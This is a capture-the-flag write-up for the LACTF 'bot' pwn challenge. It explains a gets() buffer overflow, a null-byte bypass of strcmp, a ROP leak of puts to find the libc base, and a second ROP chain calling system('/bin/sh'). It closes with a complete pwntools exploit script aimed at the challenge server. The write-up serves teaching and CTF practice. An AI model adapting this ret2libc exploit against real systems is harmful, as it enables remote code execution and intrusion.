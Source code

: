 ```yaml
---
title: "LACTF Pwn Bot"
date: 2023-03-05T02:53:20-08:00
summary: "Intermediate ret2libc challenge solved by writing a rop chain to get a shell"
tags: ["pwn", "pwntools", "ret2libc", "rop", "ropchain"]
---
```


Classic ret2libc challenge.
There is no obvious shortcut, so we might need to write a ropchain.
<!-- more -->

We get the bot executable, libc, ld, Dockerfile and the bot.c code.
{{%attachments title="Related files" /%}}

From the c code we can see that `gets` is used to take our input, so our first step should be to get rip control.
For this we need to overwrite the return pointer of main, but the first tricky part will be to do that while actually reaching the return instruction of main. This is because, as we can see in the code below, if our input doesnt match "please please please give me the flag", we will enter the else of the first if, and the program will exit without returning from main.

```c
if (strcmp(input, "give me the flag") == 0) {
    puts("lol no");
  } else if (strcmp(input, "please give me the flag") == 0) {
    puts("no");
  } else if (strcmp(input, "help, i have no idea how to solve this") == 0) {
    puts("L");
  } else if (strcmp(input, "may i have the flag?") == 0) {
    puts("not with that attitude");
  } else if (strcmp(input, "please please please give me the flag") == 0) {
    puts("i'll consider it");
    sleep(15);
    if (give_flag) {
      puts("ok here's your flag");
      system("cat flag.txt");
    } else {
      puts("no");
    }
  } else {
    puts("sorry, i didn't understand your question");
    exit(1);
  }
```

Fortunately, because strcmp stops comparing at null bytes, but gets doesnt stop recieving input at null bytes we can add a null  byte after our initial string, and then keep sending input to reach the return pointer of main. We would then need to send the correct amounts of bytes to control the instruction pointer. We can find the correct offset with the following code and gdb.

```py
payload = b"please please please give me the flag"
payload += b"\x00" 
payload += b"A"*4

p.sendline(payload)
```
![stack at the end of main](./images/gdb1.png "stack at the end of main")

After setting a breakpoint right before the return of main, continuing and inspecting the stack where our input is stored, we can see that our A's end at **0x7ffe176ee3aa**. Now we just need to locate the return pointer of main. Pwndbg makes this very easy for us by showing us the address of the next instruction after main (**0x7f9bd98e7d0a**), so then we just need to find that address on the stack and subtract where our A's ended.

![return pointer of main](./images/gdb2.png "return pointer of main")
![calculating offset](./images/gdb3.png "calculating offset")

Since the result was 30 and we have already sent 4 A's we change our python code to send a total of 34 A's, which should give us control of the instruction pointer. Now we need to leak a libc address to find the base and use that to call system to pop a shell. We choose to leak the address of puts as we know from the c code that it is being used in the program.

To make our debugging easier we use pwninit to link our executable with the given libraries and create a solve.py template for us. We wish to use puts to print the address of puts in libc. For that to happen we need the RIP to point at a pop rdi instruction, then the address of puts in the GOT and the address of puts in the PLT. We find a `pop rdi; ret` instruction at 0x40133b with ropper, and use the pwn library for the rest. Our payload now looks like this:

```py
pop_rdi_ret = 0x40133b

puts_got = exe.got["puts"]
log.info("puts in got: " + hex(puts_got))
puts_plt = exe.plt["puts"]

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(pop_rdi_ret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(exe.sym["main"])
```

We call main at the end, so we will be asked for input again and can send a payload with system("/bin/sh"). This first payload leaks the address of puts in libc, which, since we know the libc version, allows us to calculate and store the base address of libc. We also decide to log the address of puts in libc as a sanity check:

```py
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, puts: "+ str(hex(leak)))

libc.address = leak - libc.symbols["puts"] # save libc base
```
![libc leak](./images/leak.png "libc leak")

Great, it worked! Now the remaining part is quite simple. We do the same thing as with the first payload, but this time we find an instance of "/bin/sh" in the libc and places that on the stack as our argument. Then we call system from libc, which we can do because we already stored the libc base. Finally we finish with exit to keep the program happy.

```py
libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))

second_payload = b"please please please give me the flag"
second_payload += b"\x00" 
second_payload += b"A"*34 
second_payload += p64(pop_rdi_ret)
second_payload += p64(binsh)
second_payload += p64(libc_system)
second_payload += p64(libc_exit) # gracefully :)
```

The above payload works just as intended and we successfully pop a shell! :)<br>
This was my first writeup, I hope you enjoyed and maybe learned something.

![shell popped](./images/shell.png "shell popped")

## Full exploit:
```py
from pwn import *

exe = ELF("./bot_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe

#p = process("./bot_patched")
#gdb.attach(p)

p = remote("lac.tf", 31180)

pop_rdi_ret = 0x40133b

puts_got = exe.got["puts"]
log.info("puts in got: " + hex(puts_got))
puts_plt = exe.plt["puts"]

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(pop_rdi_ret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(exe.sym["main"])

p.recvline()
p.sendline(payload)

p.recvline()
p.recvline()
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, puts: "+ str(hex(leak)))

libc.address = leak - libc.symbols["puts"] # save libc base

p.recvline()

libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))

second_payload = b"please please please give me the flag"
second_payload += b"\x00" 
second_payload += b"A"*34 
second_payload += p64(pop_rdi_ret)
second_payload += p64(binsh)
second_payload += p64(libc_system)
second_payload += p64(libc_exit) # gracefully :)

p.sendline(second_payload)

p.interactive()
```
